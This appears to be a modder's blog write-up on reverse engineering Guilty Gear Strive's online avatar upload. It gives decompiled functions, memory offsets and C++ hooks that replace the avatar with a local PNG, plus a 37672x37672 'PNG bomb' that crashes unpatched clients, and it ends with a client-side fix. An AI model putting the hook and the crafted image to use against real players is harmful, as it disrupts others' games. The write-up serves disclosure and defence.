










Summary
This vulnerability takes advantage of the fact that the game sends locally generated images to the server and that they are read back by the clients upon request.
The problem lies in using the images in a png format and not doing any validations of the uploaded/downloaded image dimensions
Attempting to read it on an unpatched client will crash the game.
The beginning
I already have modding and executable patching experience in this game, having developed one popular tool which used to unlock survival colors for online and local pvp play.
I'm also a member of multiple modding discord servers, one in particular being "Unreal Anime Mods".
One day, as I as checking "strive-modding", I came across something interesting:
 This immediately drew my attention, as it resided server-side, there I went to open up IDA and check out the leaked arcade executable for the game, the special part being, it was leaked along with the debug symbols!
(This never happened on PC and this was the last time the PDB was leaked on the arcade version)
Reversing the game
First thing to look is for any references that are likely to be related with the R-Code avatar image...
From those functions, I was immediately interested in:
char __fastcall REDNetworkMenuInit::UploadAvatarImage(REDNetworkMenuInit *this, bool bTrigger, int *success)
void __fastcall UREDWidgetLobbyAvatarEditor::ExportAvatarImage(UREDWidgetLobbyAvatarEditor *this)
void __fastcall UREDAvatarImageDownload::OnFinishedDownload(
UREDAvatarImageDownload *this,
const TLGameServerStruct::SDownloadTUSRecv *recvData,
bool suceeded)
In the ExportAvatarImage function, it saves the image buffer into the save file retrieved from:
bool __fastcall AREDLobbyCaptureAvatar::ExportAvatarRenderTarget(AREDLobbyCaptureAvatar *this, FBufferArchive *Buffer)
if ( AREDLobbyCaptureAvatar::ExportAvatarRenderTarget(v15, &v27) )
{
v24 = GCSaveDataManager;
v24->m_SaveData.LobbyAvatarImageData.DataSize = v27.TotalSize(&v27);
Data = v27.AllocatorInstance.Data;
v26 = v27.TotalSize(&v27);
memcpy_0(&v24->m_SaveData.LobbyAvatarImageData, Data, v26);
v24->m_SaveData.LobbyAvatarImageData.Valid = 1;
}
Having looked at ExportAvatarRenderTarget, I found that it calls:
UTexture2D *__fastcall REDImageLib::LoadTexture2DFromBufferNosRGB(
const void *pBuffer,
int Size,
EImageFormat format,
int *Width,
int *Height)
Said function will then call:
bool __fastcall FImageUtils::ExportRenderTarget2DAsPNG(UTextureRenderTarget2D *TexRT, FArchive *Ar)
This means it's a png file.
Going through UploadAvatarImage and seeing where it's called from...
I have found out the size limit for the upload, which closely matches the maximum byte size for the png, I also found that there is a flag for the dirty state, which will dictate where it will upload.
if ( bTrigger )
{
*(_QWORD *)&this->SubState = 0i64;
}
else
{
SubState = this->SubState;
if ( SubState )
{
if ( SubState == 2 )
{
*success = this->SubState2;
return 1;
}
return 0;
}
}
...
if ( TLGameServerAPI::UploadTUS(
Instance,
1,
(unsigned __int8 *)&GCSaveDataManager->m_SaveData.LobbyAvatarImageData,
262400,
(TBaseDelegate *)&Original) )
{
this->SubState = 1;
}
bool __fastcall TLGameServerAPI::UploadTUS(
TLGameServerAPI *this,
int slot,
unsigned __int8 *upload,
int uploadSize,
TBaseDelegate
if ( this->apiId
|| (m_pStatus = this->rqData.m_pStatus) != 0i64 && *m_pStatus == Status_Running
|| uploadSize > 294912 )
{
TBaseDelegate::ExecuteIfBound(
Delegate,
(UAnimMontage *)&this->UploadTUSRecvData,
0);
return 0;
}
I did think about patching this 262400 byte size limit, but glancing over OnFinishedDownload, it will only read back the 262400 bytes, the extra 4 bytes are for the buffer size
memset_0(v60, 0, 262404ui64);
...
memcpy_0(&v13->AllocatorInstance.Data[(int)v55], this->DownloadBuffer, 0x40100ui64)
Since I was already able to modify the save file to grant special reward auras (this is present in the tool I published), I knew how the game's save system worked.
By getting the memory address of the SaveDataManager, I can now write to the memory offset 0x7ED0E4 my png file buffer, adding 0x40100 to it, will allow me to write the size, adding 0x40104 will allow me to force it to be valid.
With all of this in mind, I wanted something simple, every time it would try to capture the render target and load my local png file from disk.
To achieve that, I needed to find the chain of functions called, by looking at the ExportAvatarImage function, I saw that it is called by:
void __fastcall UREDWidgetLobbyAvatarEditor::OnClosed(
UREDWidgetLobbyAvatarEditor *this,
ECommonWindowCloseReason reason)
Meaning, every time I close the avatar editor, it will capture the render target, generate the image, check for the local avatar settings cache and upload it to the server if different.
To iron out the last kink, I wanted to always upload by freezing the upload input flag. (offset: 0x459)
this->bUploadAvatarImage = 1;
Since the reversed executable is outdated and different from the Steam version, I had to use Steamless to unpack the game as it is protected by SteamStub (there is a single point in time when the game wasn't packed)
I generated patterns for every relevant function and tried to find each in the reversed executable, I also double-checked every field offset for each struct.
I used this tool to generate patterns. (sometimes it will generate something that isn't unique and requires double-checking)
I happened to look at the function below: (will be useful to confirm offsets)
UTexture2D *__fastcall ULobbyBlueprintLibrary::GetLobbyAvatarImage(UObject *WorldContextObject)
{
UTexture2D *result; // rax
int Height; // [rsp+48h] [rbp+10h] BYREF
int Width; // [rsp+50h] [rbp+18h] BYREF
result = (UTexture2D *)GCSaveDataManager;
if ( GCSaveDataManager )
return REDImageLib::LoadTexture2DFromBufferNosRGB(
&GCSaveDataManager->m_SaveData.LobbyAvatarImageData,
GCSaveDataManager->m_SaveData.LobbyAvatarImageData.DataSize,
Invalid,
&Width,
&Height);
return result;
}
*(_BYTE *)(a1 + 0x469) = 1;
The bUploadAvatarImage flag is located at offset 0x469 now. (to find this function I had to generate a pattern for ExportAvatarImage and then look for said pattern in the new executable and see where it is called).
Here is the GetLobbyAvatarImage function in the current executable: (found by generating a pattern and scanning for it in the new executable)
__int64 sub_140F05210()
{
__int64 result; // rax
char v1; // [rsp+48h] [rbp+10h] BYREF
char v2; // [rsp+50h] [rbp+18h] BYREF
result = qword_144F08C30;
if ( qword_144F08C30 )
return sub_140EC36D0(
(int)qword_144F08C30 + 0x7ED348,
*(_DWORD *)(qword_144F08C30 + 0x82D448),
0,
(unsigned int)&v2,
(__int64)&v1);
return result;
}
The offset for the image buffer is now stored at: 0x7ED348
With some quick math, the difference between 0x82D448 and 0x7ED348 is 0x40100 (262400), which is unchanged.
Implementation
Having all this figured out, it was time to update my tool and add this functionality.
The following functions starting with "hk_" are trampoline hook functions, like so:
bool CustomAvatarImage()
{
Orig_SetToDefault_All = reinterpret_cast(PatternScan("48 89 5C 24 10 48 89 6C 24 18 48 89 74 24 20 57 41 56 41 57 48 83 EC ? 45 33 FF 48 8D B9 D4 00 00 00"));
if (!Orig_SetToDefault_All) return false;
Orig_ExportAvatarImage = reinterpret_cast(PatternScan("40 55 48 8D 6C 24 A9 48 81 EC ? ? ? ? 48 8B 01"));
if (!Orig_ExportAvatarImage) return false;
Orig_ExportAvatarImage = reinterpret_cast(TrampHook64((BYTE*)Orig_ExportAvatarImage, (BYTE*)hk_ExportAvatarImage, 14));
if (!Orig_ExportAvatarImage) return false;
Orig_SetToDefault_All = reinterpret_cast(TrampHook64((BYTE*)Orig_SetToDefault_All, (BYTE*)hk_SetToDefault_All, 15));
if (!Orig_SetToDefault_All) return false;
return true;
}
__int64 __fastcall hk_SetToDefault_All(__int64 CSaveDataManager)
{
CSaveDataManagerInstance = CSaveDataManager;
__int64 returnVal = Orig_SetToDefault_All(CSaveDataManager);
ReplaceAvatarImage();
return returnVal;
}
__int64 __fastcall hk_ExportAvatarImage(__int64 UREDWidgetLobbyAvatarEditor)
{
__int64 returnVal = Orig_ExportAvatarImage(UREDWidgetLobbyAvatarEditor);
if (ReplaceAvatarImage())
{
*(BYTE*)(UREDWidgetLobbyAvatarEditor + UPLOAD_AVATAR_IMAGE_FLAG_OFFSET) = 1;
}
return returnVal;
}
bool ReplaceAvatarImage()
{
if (CSaveDataManagerInstance == 0) return false;
std::ofstream original(OriginalAvatarFileName, std::ios::out | std::ios::binary);
if (original.is_open() && *(int*)(CSaveDataManagerInstance + AVATAR_IMAGE_DATA_OFFSET + AVATAR_IMAGE_DATA_SIZE_OFFSET) > 0)
{
original.write(reinterpret_cast((BYTE*)(CSaveDataManagerInstance + AVATAR_IMAGE_DATA_OFFSET)), *(int*)(CSaveDataManagerInstance + AVATAR_IMAGE_DATA_OFFSET + AVATAR_IMAGE_DATA_SIZE_OFFSET));
}
original.close();
std::ifstream image(AvatarFileName, std::ios::in | std::ios::binary | std::ios::ate);
std::streamsize size = image.tellg();
if (size <= AVATAR_IMAGE_DATA_MAX_SIZE && size > 0)
{
image.seekg(0, std::ios::beg);
std::vector buffer(size);
if (image.read(buffer.data(), size))
{
memcpy_s((BYTE*)(CSaveDataManagerInstance + AVATAR_IMAGE_DATA_OFFSET), size, buffer.data(), size);
*(int*)(CSaveDataManagerInstance + AVATAR_IMAGE_DATA_OFFSET + AVATAR_IMAGE_DATA_SIZE_OFFSET) = (int)size;
*(BYTE*)(CSaveDataManagerInstance + AVATAR_IMAGE_DATA_OFFSET + AVATAR_IMAGE_DATA_VALID_OFFSET) = 1;
return true;
}
}
return false;
}
I ended up giving up on the idea for Steam Avatar since it's 184x184 and the game accepts 256x256, and some concerns by other people were raised.
 Maybe I was wrong, and this wasn't the end...
The return
I was browsing Youtube and I came across this video...
Could it be? A zero-day crasher for GGST?
Right after watching the video, I crafted this masterpiece:
To not hit the size limit, I had to save it with 1-bit depth.
37672 by 37672 with 261575 bytes in size. (183273 bytes if saved from a newer Paint.net version)
Uploading this image will crash the game when I try to view the R-Code
Reversing the crash
With Cheat Engine attached, I found the base address: 0x7FF62DFA0000
Fatal error!
Unhandled Exception: EXCEPTION_ACCESS_VIOLATION writing address 0xa8cce000
0x00007ffadaedff7e VCRUNTIME140.dll!UnknownFunction []
0x00007ff62ee6382d GGST-Win64-Shipping.exe!UnknownFunction []
...
0x00007ffaf77ee8d7 KERNEL32.DLL!UnknownFunction []
0x00007ffaf81dc5dc ntdll.dll!UnknownFunction []
0x7FF62EE6382D - 0x7FF62DFA0000 = 0xEC382D
With the offset above, I'll look at what is being called prior to the crash.
memcpy(v24, Src[0], (size_t)Src[1]);
While this isn't exactly helpful, I found that the offset belongs to the LoadTexture2DFromBufferNosRGB function:
Transient = UTexture2D::CreateTransient(v18, v17, PF_B8G8R8A8, 0i64);
if ( Transient )
{
v19 = (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)v27 + 40i64))(v27);
v20 = v27;
*Width = v19;
*Height = (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)v20 + 48i64))(v20);
*((_BYTE *)&Transient->UTexture + 96) |= 2u;
v21 = FBulkDataBase::Lock(
(FBulkDataBase *)(*(_QWORD *)Transient->PlatformData->Mips.Array.AllocatorInstance.Data + 16i64),
2u);
memcpy_0(v21, Original[0], (size_t)Original[1]);
...
}
From the snippet above, it is creating a Texture2D object and then copying the buffer to a memory location, the problem is that the generated texture is a raw uncompressed texture, resulting in a very big object.
As I can't see any validations regarding size, it is up to me to implement them.
I also found out that returning a null Texture2D object would result in an infinite loading when attempting to view other player's profile in the lobby, be it local or remote.
Ended up finding what called LoadTexture2DFromBufferNosRGB with Cheat Engine as my (VEH) debugger and found:
void __fastcall UREDWidgetCommonAvatarFace::SetData_LocalUser(UREDWidgetCommonAvatarFace *this)
Which is called by:
void __fastcall UREDWidgetRCodePageOne::RefreshStatic(
UUserWidget *target,
URCodeDisplayDataSourceBase *datasource,
TBaseDelegate
if ( TRenderResourcePool::NeedsRenderingResumedForRenderingThreadTick(v19) )
{
UREDWidgetCommonAvatarFace::Reset(v15);
UREDWidgetCommonAvatarFace::SetData_APM3(v15);
}
else if ( datasource->IsMine(datasource) )
{
UREDWidgetCommonAvatarFace::SetData_LocalUser(v15);
}
else
{
v20 = datasource->__vftable;
userID.Data = 0i64;
if ( v20->GetUserID(datasource, &userID) )
UREDWidgetCommonAvatarFace::SetData_OnlineUser(v15, userID);
}
Upon checking SetData_LocalUser and SetData_OnlineUser, they only seem to set the face state and the avatar image, so it was safe to patch out.
Preventing the exploit on my client
bool AntiPNGBomb()
{
Orig_CreateTransient = reinterpret_cast(PatternScan("4C 8B DC 53 55 56 41 55"));
if (!Orig_CreateTransient) return false;
Orig_CreateTransient = reinterpret_cast(TrampHook64((BYTE*)Orig_CreateTransient, (BYTE*)hk_CreateTransient, 14));
if (!Orig_CreateTransient) return false;
RefreshSetLocal = PatternScan("E8 ? ? ? ? EB ? 49 8B 06 48 8D 55 C7");
if (!RefreshSetLocal) return false;
memcpy_s(Orig_RefreshSetLocal, 5, RefreshSetLocal, 5);
RefreshSetOnline = PatternScan("E8 ? ? ? ? E8 ? ? ? ? 48 8B 4B 10 48 8B D0 E8 ? ? ? ? 84 C0 0F 84 ? ? ? ?");
if (!RefreshSetOnline) return false;
memcpy_s(Orig_RefreshSetOnline, 5, RefreshSetOnline, 5);
return true;
}
__int64 __fastcall hk_CreateTransient(int InSizeX, int InSizeY, __int64 InFormat, __int64 InName)
{
BYTE NOPPatch[] = { 0x90, 0x90, 0x90, 0x90, 0x90 };
if (InSizeX > MAX_TEXTURE_AXIS_DIMENSION || InSizeY > MAX_TEXTURE_AXIS_DIMENSION)
{
Patch(NOPPatch, RefreshSetLocal, sizeof(NOPPatch));
Patch(NOPPatch, RefreshSetOnline, sizeof(NOPPatch));
return 0;
}
Patch(Orig_RefreshSetLocal, RefreshSetLocal, sizeof(Orig_RefreshSetLocal));
Patch(Orig_RefreshSetOnline, RefreshSetOnline, sizeof(Orig_RefreshSetOnline));
return Orig_CreateTransient(InSizeX, InSizeY, InFormat, InName);
}
Showcase
As you can see, I don't crash, but others mysteriously disappear from the lobby...
Conclusion
I had a lot of fun reversing and coming up with the exploit chain, this is something that can definitely be abused and the developers should just transmit the chosen clothes for the avatar instead of relying on pngs, or validate them at the very least. (or use jpegs)
I also discovered how to inject custom jpeg thumbnails into the museum figures, which can be shared and viewed online. (this is also implemented in my tool)
The crash fix is also implemented in my tool.